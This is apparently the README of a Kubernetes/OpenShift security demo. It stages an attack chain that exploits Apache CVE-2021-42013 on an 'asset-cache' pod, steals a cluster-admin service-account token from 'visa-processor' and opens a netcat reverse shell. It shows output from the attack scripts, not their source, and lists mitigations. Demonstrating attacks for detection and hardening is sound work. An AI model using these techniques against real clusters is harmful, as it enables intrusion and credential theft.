## Legal Disclaimer

This project is done for educational and ethical testing purposes only. Attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

## Introduction

Welcome to our demo environment, where we showcase our comprehensive approach to securing modern application architectures. In this environment, we focus on critical areas of security: Applying Security Best practices ( Or not ), vulnerability management, runtime detection and response, network segmentation, defence in depth, and applying the least privileges. The demo environment also includes runtime detection and response capabilities, allowing you to detect and respond to threats in real time, including detecting zeroday attacks. Finally, our demo environment showcases the importance of network segmentation in securing modern application architectures.

## Installing

```
git clone https://github.com/ralvares/security-demos
cd manifests
oc apply -k .
```

## RHACS/Stackrox

TBD

## Attack Description

In this scenario, the attacker starts by gaining access to "asset-cache," which may have a vulnerability that the attacker can exploit to gain control of the container. Once the attacker has control of "asset-cache," they then use it as a jumping-off point to try and gain access to "visa-processor."

To do this, the attacker may use exploits or other techniques to move laterally within the network, potentially taking advantage of vulnerabilities in other containers or network components to gain access to additional systems. Once the attacker has gained access to "visa-processor," they may attempt to establish persistence within the network, allowing them to maintain access even if their initial entry point is discovered and blocked.

## Attack Environment

 The "asset-cache" is a web server running a version of Apache with a vulnerability (CVE-2021-42013) and exposed to the internet via Route/ingress, which means it has a weakness that the attacker can exploit to gain access to the system.

Remember that the vulnerability scanner cannot identify the vulnerability because the web server was built from source code, which means it was custom-made rather than downloaded as a pre-made package.

The plan is to use the "asset-cache" as a stepping stone to access a workload called "visa-processor" that is running in the "payments" namespace. 
There is no network segmentation within the cluster, which means that once they gain access to one part of the system, it will be relatively easy for them to move laterally and access other parts of the system.

The "visa-processor" service account within the cluster has cluster-admin privileges. If the attacker has access to a token or credentials that allow them to authenticate with the Kubernetes cluster as the "visa-processor" service account (which has cluster-admin privileges), they would have significant power within the cluster.

With this level of access, the attacker could use a command-line tool called "kubectl" to execute commands on any of the containers running within the cluster. For example, they could use the "kubectl exec" command to execute arbitrary commands on a running container, which could potentially give them access to sensitive information or allow them to modify the behaviour of the container in malicious ways.

Alternatively, the attacker could use "kubectl" to create a new namespace within the cluster, and then deploy their own containers within that namespace. This would allow them to run their own code within the cluster, potentially giving them even greater access and control over the system.

Overall, the level of access provided by the "visa-processor" service account within the Kubernetes cluster represents a significant security risk. Organizations must ensure appropriate security measures are in place to prevent unauthorized access.

### Mitigations

To mitigate the security risks outlined in the previous conversation, I would recommend starting with the following steps:

- Upgrade the software running on the containers, including Apache and any other software that may be vulnerable to attack. Keeping software up-to-date is an essential step in ensuring that known security vulnerabilities are addressed.

- Apply the principle of least privilege to the "visa-processor" service account. Specifically, remove the cluster admin privileges from the service account and only provide it with the permissions that are required for it to perform its intended functions.

- configure the container to listen on a higher port, such as port 8080, so that it does not require root access. Running containers as non-root users is generally considered a best practice for security.

- Apply network policies to enforce network segmentation within the Kubernetes cluster. This can help prevent lateral movement by attackers who gain access to one part of the system.

By following these steps, organizations can reduce the likelihood of a successful attack against their Kubernetes cluster, and limit the damage that an attacker could cause if they were able to gain access to the system. It is important to keep in mind, however, that security is an ongoing process and requires regular attention and maintenance to stay effective.

## Scripts

The scripts are designed to demo a few security use cases, meaning the target are hardcoded ( asset-cache and visa-processor ).

- **attack_001.sh** will use asset-cache as a steping stone to access the visa-processe service account token.

```
Security Demo -> cd attack
Security Demo -> ./attack_001.sh http://asset-cache-frontend.apps.cluster.local/                
☺ - Target asset-cache-84bc5779ff-lsq2n Exploited
☺ - Next Phase: Lateral Movement ...
☺ - Exploiting visa-processor workload ...
☺ - Target visa-processor-6d764fc488-qzjxl Exploited
☺ - Token extracted from visa-processor-6d764fc488-qzjxl
 ☣☣☣ Checking Token Privileges ☣☣☣
☺ - kubernetes.default.svc:443 Access Confirmed from asset-cache-84bc5779ff-lsq2n
☺ - Token with cluster-admin Privileges Confirmed
☣☣☣ Happy Hacking ☣☣☣

Security Demo -> cat token
eyJhbGciOiJSUzI1NiIsImtpZCI6ImNsbXFWcGppX1BQX1NHd....
```

- **attack_002.sh** will use the token extracted from the first attack and run kubectl exec to install netcat and run a reverse shell. Kube API needs to be accessible. 

```
Security Demo -> cd attack
Security Demo -> ./attack_002.sh https://api.ocp.cluster.local:6443                                                                           
☠ - Getting access to pod visa-processor-6d764fc488-qzjxl

WARNING: apt does not have a stable CLI interface. Use with caution in scripts.

Ign:1 http://deb.debian.org/debian stretch InRelease
Hit:2 http://security.debian.org/debian-security stretch/updates InRelease
Hit:3 http://deb.debian.org/debian stretch-updates InRelease
Hit:4 http://deb.debian.org/debian stretch Release
Reading package lists...
Building dependency tree...
Reading state information...
2 packages can be upgraded. Run 'apt list --upgradable' to see them.
Reading package lists...
Building dependency tree...
Reading state information...
netcat is already the newest version (1.10-41).
0 upgraded, 0 newly installed, 0 to remove and 2 not upgraded.
.
.
.
```

- **attack_003.sh** - will use asset-cache as a stepping stone to to install netcat and run a reverse shell without the need to kubectl exec or token :D

```
Security Demo -> cd attack
Security Demo -> ./attack_003.sh http://asset-cache-frontend.apps.cluster.local/                                                              1
PoC CVE-2021-42013 reverse shell Apache 2.4.50 with CGI
Exploiting deployment...
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Transfer-Encoding: chunked
Date: Tue, 07 Mar 2023 07:22:23 GMT


WARNING: apt does not have a stable CLI interface. Use with caution in scripts.

Ign:1 http://deb.debian.org/debian stretch InRelease
Hit:2 http://deb.debian.org/debian stretch-updates InRelease
Hit:3 http://security.debian.org/debian-security stretch/updates InRelease
Hit:4 http://deb.debian.org/debian stretch Release
Reading package lists...
Building dependency tree...
Reading state information...
2 packages can be upgraded. Run 'apt list --upgradable' to see them.
Reading package lists...
Building dependency tree...
Reading state information...
netcat is already the newest version (1.10-41).
0 upgraded, 0 newly installed, 0 to remove and 2 not upgrade
```